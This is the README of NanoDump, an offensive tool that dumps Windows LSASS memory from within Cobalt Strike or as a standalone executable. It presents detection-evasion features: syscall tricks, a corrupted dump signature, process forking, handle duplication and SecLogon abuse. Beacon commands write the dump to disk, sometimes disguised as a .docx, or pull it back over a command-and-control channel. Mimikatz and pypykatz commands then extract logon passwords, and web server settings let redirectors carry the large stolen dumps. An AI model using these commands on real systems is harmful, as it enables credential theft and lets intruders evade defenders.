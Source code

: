# NanoDump

A Beacon Object File that creates a minidump of the LSASS process.

![screenshot](demo.png)

### Features
- It uses syscalls (with [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)) for most operations
- Syscalls are called from an *ntdll* address to bypass some syscall detections
- You can choose to download the dump without touching disk or write it to a file
- The minidump by default has an invalid signature to avoid detection
- It reduces the size of the dump by ignoring irrelevant DLLs. The (nano)dump tends to be arround 10 MB in size
- You don't need to provide the PID of LSASS
- No calls to *dbghelp* or any other library are made, all the dump logic is implemented in nanodump
- Supports process forking to avoid the permission `PROCESS_VM_READ`
- Supports handle duplication
- Supports MalSecLogon
- You can use the .exe version to run *nanodump* outside of Cobalt Strike :smile:

## Usage

### Clone

```bash
git clone https://github.com/helpsystems/nanodump.git
```

### Compile with MinGW (optional)

```bash
make
```

### Import

Import the `NanoDump.cna` script on Cobalt Strike.


### Run

Run the `nanodump` command in the Beacon console.

```
beacon> nanodump
```

### Restore the signature
Once you downloaded the minidump, restore the invalid signature
```zsh
bash restore_signature.sh <dumpfile>
```

### get the secretz

#### mimikatz
To get the secrets simply run:
```
mimikatz # sekurlsa::minidump <dumpfile>
mimikatz # sekurlsa::logonPasswords full
```

#### pypykatz
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

## Parameters

#### --getpid
Get PID of LSASS and leave.  
This is just for convenience, nanodump does not need the PID of LSASS.

#### --write -w < path > (required for EXE)
Where to write the dumpfile.
* **BOF**: If this parameter is not provided, the dump will be downloaded in a fileless manner.
* **EXE**: This parameter is required given that no C2 channel exists

#### --valid -v
The minidump will have a valid signature.  
If not entered, the signature will be invalid. Before analyzing the dump restore the signature of the dump, with:  
`bash restore_signature.sh <dumpfile>`  

#### --fork -f
Create a handle to LSASS with `PROCESS_CREATE_PROCESS` access and then create a 'clone' of the process. This new process will then be the target for memory dumping. While this will result in a new process creation, it removes the need to read LSASS directly.

#### --dup -d
List all the handles in the system and look for an existing handle to LSASS. If found, duplicate it and access LSASS with it. This eliminates the need to open a new handle to LSASS directly.  
*(Be aware that there is no guarantee to find such handle)*

#### --seclogon -sl
Leak a handle to LSASS by abusing SecLogon with `CreateProcessWithLogonW`. This eliminates the need to open a new handle to LSASS directly.  
When this option is used, errors while analyzing the minidump are to be expected. Use the latest version of pypykatz.  
**If used as BOF, an unsigned binary will be written to disk unless --dup is also provided!**

#### --binary -v < path >
Path to a binary such as `C:\Windows\notepad.exe`.  
This option is used exclusively with `--seclogon` and `--dup`. If used, nanodump will create that process and use MalSecLogon to leak an LSASS handle in it. Then, it will duplicate that handle and use it to access LSASS.  
The created process is then terminated automatically.


## Examples

Read LSASS indirectly by creating a fork and write the dump to disk with an invalid signature:
```
beacon> nanodump --fork --write C:\lsass.dmp
```

Use MalSecLogon to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and download the dump  with a valid signature:
```
beacon> nanodump --seclogon --dup --fork --binary C:\Windows\notepad.exe --valid
```

Get a handle with MalSecLogon, read LSASS indirectly by using a fork and write the dump to disk with a valid signature (a nanodump binary will be uploaded!):
```
beacon> nanodump --seclogon --fork --valid --write C:\Windows\Temp\lsass.dmp
```

Download the dump with an invalid signature (default):
```
beacon> nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
beacon> nanodump --dup --write C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
beacon> nanodump --getpid
```

## HTTPS redirectors
If you are using an HTTPS redirector (as you should), you might run into issues due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [MalSecLogon](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
